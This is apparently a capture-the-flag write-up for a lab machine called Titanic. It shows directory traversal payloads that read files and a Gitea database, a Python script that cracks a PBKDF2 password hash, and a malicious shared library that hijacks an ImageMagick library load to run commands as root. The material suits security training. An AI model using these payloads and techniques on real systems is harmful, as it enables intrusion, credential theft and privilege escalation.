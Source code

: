 # Titanic

```
Difficulty: Easy
Operating System: Linux
Hints: True
```
##  Summary

| Step | User / Access | Technique Used                          | Result                                                                                                       |
| :--- | :------------ | :-------------------------------------- | :----------------------------------------------------------------------------------------------------------- |
| 1    | `N/A`         | **Nmap Scan**                           | Discovered open ports: `22` (SSH) and `80` (HTTP).                                                           |
| 2    | `N/A`         | **Directory Traversal**                 | Accessed `user.txt` by manipulating `ticket` parameter: `../../../../../../../home/developer/user.txt`.      |
| 3    | `N/A`         | **Subdomain Enumeration**               | Discovered `dev.titanic.htb`, identified as Gitea 1.22.1.                                                    |
| 4    | `N/A`         | **Gitea Database Leak**                 | Downloaded `gitea.db` via directory traversal: `../../../../../../home/developer/gitea/data/gitea/gitea.db`. |
| 5    | `developer`   | **Password Cracking (pbkdf2)**          | Extracted and cracked developer password hash using a custom Python script.                                  |
| 6    | `developer`   | **User Shell Access**                   | Logged in as `developer` and retrieved `user.txt`.                                                           |
| 7    | `root`        | **ImageMagick Exploit (CVE-2024-xxxx)** | Created malicious `libxcb.so.1` to execute code during image processing, exfiltrating `root.txt`.            |


##  Step 1 – Initial Enumeration

**Nmap Scan:**

```bash
nmap -sV -T4 titanic.htb
````

**Result:**

```
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
80/tcp  open  http    Apache httpd 2.4.52
```

* Port 80 serves a web application.

---

##  Step 2 – File Read (Directory Traversal)

Visited `http://titanic.htb` and clicked **Book Now**.

Used **Burp Suite** to intercept the HTTP request and found a file download mechanism with a `ticket` parameter.

### Exploit Directory Traversal:

```http
http://titanic.htb/download?ticket=../../../../../../../home/developer/user.txt
```

**Result:**

* Successfully downloaded and read `user.txt`.

---

##  Step 3 – Subdomain Fuzzing

Added entry to `/etc/hosts`:

```
10.10.x.x dev.titanic.htb
```

Visited `http://dev.titanic.htb` → Found a **Gitea service (version 1.22.1)**.

---

##  Step 4 – Gitea Database Download

Knowing Gitea's database is usually located at `/data/gitea.db`, used directory traversal again:

```http
http://titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db
```

* Successfully obtained `gitea.db`.

---

##  Step 5 – Crack Developer Password

Extracted password hash from the database:
`e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`

Salt: `8bf3e3452b78544f8bee9400d6936d34`

Used a custom Python script to brute-force using the wordlist:

```python
import hashlib
import binascii

def pbkdf2_hash(password, salt, iterations=50000, dklen=50):
    hash_value = hashlib.pbkdf2_hmac(
        'sha256',
        password.encode('utf-8'),
        salt,
        iterations,
        dklen
    )
    return hash_value

def find_matching_password(dictionary_file, target_hash, salt):
    target_hash_bytes = binascii.unhexlify(target_hash)
    with open(dictionary_file, 'r', encoding='utf-8') as file:
        for line in file:
            password = line.strip()
            hash_value = pbkdf2_hash(password, salt)
            if hash_value == target_hash_bytes:
                print(f"Found password: {password}")
                return password
    return None

salt = binascii.unhexlify('8bf3e3452b78544f8bee9400d6936d34')
target_hash = 'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'
dictionary_file = '/usr/share/wordlists/rockyou.txt'
find_matching_password(dictionary_file, target_hash, salt)
```

**Result:** Found the developer's password.

---

##  Step 6 – Login as Developer

```bash
ssh developer@titanic.htb
```

Located `user.txt` at `/home/developer/user.txt` and retrieved it.

---

##  Step 7 – Privilege Escalation via ImageMagick (CVE)

In `/opt/scripts/identify_image.sh`, identified that `libxcb.so.1` could be exploited.

### Exploit Path:

```bash
cd /opt/app/static/assets/images

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
```

Also needed to copy a dummy image:

```bash
cp home.jpg home2.jpg
```

Waited for the script to execute, which read and exfiltrated the root flag to `/tmp/rootflag`.

Finally retrieved:

```bash
cat /tmp/rootflag
```

---

